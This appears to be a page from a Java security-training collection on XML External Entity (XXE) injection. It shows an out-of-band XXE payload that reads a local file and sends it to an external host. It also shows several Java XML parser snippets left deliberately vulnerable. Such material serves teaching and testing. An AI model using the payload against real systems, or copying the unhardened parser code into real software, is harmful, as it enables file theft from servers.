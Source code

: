 ```xml
<!DOCTYPE foo SYSTEM "http://test.joychou.org/evil.dtd">
```

```xml
<!ENTITY % data SYSTEM "file:///tmp/x">
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://test.joychou.org/?data=%data;'>">
%payload;
%send;
```
#### XMLReader
```java
XMLReader xmlReader = XMLReaderFactory.createXMLReader();  
xmlReader.parse(new InputSource(new StringReader(body))); // parse xml  
return "xmlReader xxe vuln code";
```
#### SAXBuilder
```java
SAXBuilder builder = new SAXBuilder();  
// org.jdom2.Document document  
builder.build(new InputSource(new StringReader(body))); // cause xxe  
return "SAXBuilder xxe vuln code";
```
#### SAXReader
```java
SAXReader reader = new SAXReader();  
// org.dom4j.Document document  
reader.read(new InputSource(new StringReader(body))); // cause xxe
```
#### SAXParser
```java
SAXParserFactory spf = SAXParserFactory.newInstance();  
SAXParser parser = spf.newSAXParser();  
parser.parse(new InputSource(new StringReader(body)), new DefaultHandler()); // parse xml
```
#### Digester
```java
Digester digester = new Digester();  
digester.parse(new StringReader(body)); // parse xml
```
#### DocumentBuilder
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();  
DocumentBuilder db = dbf.newDocumentBuilder();  
InputSource is = new InputSource(request.getInputStream());  
Document document = db.parse(is); // parse xml  
  
// 遍历xml节点name和value  
StringBuilder buf = new StringBuilder();  
NodeList rootNodeList = document.getChildNodes();  
for (int i = 0; i < rootNodeList.getLength(); i++) {  
Node rootNode = rootNodeList.item(i);  
NodeList child = rootNode.getChildNodes();  
for (int j = 0; j < child.getLength(); j++) {  
Node node = child.item(j);  
buf.append(String.format("%s: %s\n", node.getNodeName(), node.getTextContent()));  
}  
}  
return buf.toString();
```
#### Xinclude
```java
String body = WebUtils.getRequestBody(request);  
logger.info(body);  
  
```